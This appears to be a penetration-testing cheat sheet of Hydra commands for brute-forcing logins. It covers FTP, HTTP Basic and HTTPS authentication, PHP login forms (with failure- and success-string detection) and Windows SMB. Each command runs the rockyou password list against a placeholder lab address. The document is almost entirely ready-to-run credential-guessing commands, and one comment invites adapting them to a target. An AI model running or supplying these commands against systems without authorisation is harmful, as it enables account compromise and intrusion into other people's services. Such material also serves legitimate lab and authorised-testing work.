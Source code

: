 ### FTP

```bash
# Brute force FTP with username list
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.10

# Using IPv6 address
hydra -l admin -P /usr/share/wordlists/rockyou.txt -6 ftp://[2001:db8::1]

# Exit after finding first valid login
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.10 -f
```

### HTTP Basic Authentication

```bash
# Basic HTTP auth
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://10.10.10.10/admin/

# HTTPS
hydra -l admin -P /usr/share/wordlists/rockyou.txt https-get://10.10.10.10/admin/

# Custom port
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://10.10.10.10:8080/admin/
```

### HTTP POST Form

```bash
# Web form authentication (adapt parameters to your target)
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# With HTTPS
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 https-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# Custom error message detection
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid credentials"

# Success message detection (note S= instead of F=)
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:S=Welcome"
```

### SMB

```bash
# Brute force Windows SMB
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://10.10.10.10

# Target specific Windows domain
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://10.10.10.10 -m "WORKGROUP"
```
